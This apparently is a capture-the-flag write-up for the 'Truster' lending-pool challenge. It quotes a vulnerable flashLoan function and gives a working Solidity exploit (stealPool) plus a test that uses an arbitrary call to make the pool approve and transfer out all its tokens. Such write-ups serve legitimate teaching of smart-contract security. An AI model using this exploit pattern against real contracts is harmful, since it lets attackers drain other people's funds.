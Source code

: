 ```javascript
    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        damnValuableToken.transfer(borrower, borrowAmount);
        (bool success, ) = target.call(data);
        require(success, "External call failed");

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

While all flash loans allow the user to execute code at another contract, the function name is usually specified as `FlashloanReceiver` or similar. In this case, we can specify both the target and the data, meaning that we can execute code at any contract with the pool as the `msg.sender`. We can abuse this by approving ourself to `transferFrom` all the tokens from the pool, as follows:

```javascript
    function stealPool (
        uint256 borrowAmount,
        address borrower,
        address targetpool,
        address tokenaddy
        )
        public
    {
        //instantiate the pool and token at the given addresses
        TrusterLenderPool pool = TrusterLenderPool(targetpool);
        IERC20 token = IERC20(tokenaddy);

        //encode the call to approve the allowance for this contract        
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), uint(-1));
        
        //we don't want to loan anything, we just want to approve an allowance on the token in the context of the pool
        pool.flashLoan(0, borrower, tokenaddy, data);
        
        //use the allowance to transfer the tokens from the pool to the attacker
        token.transferFrom(targetpool , borrower, token.balanceOf(targetpool));
        
    }
```
```javascript
    it('Exploit', async function () {
        let attackerContract = await TrusterExploit.new({ from: deployer });
        attackerContract.stealPool(ether('1000000'), attacker, this.pool.address, this.token.address);
    });
```

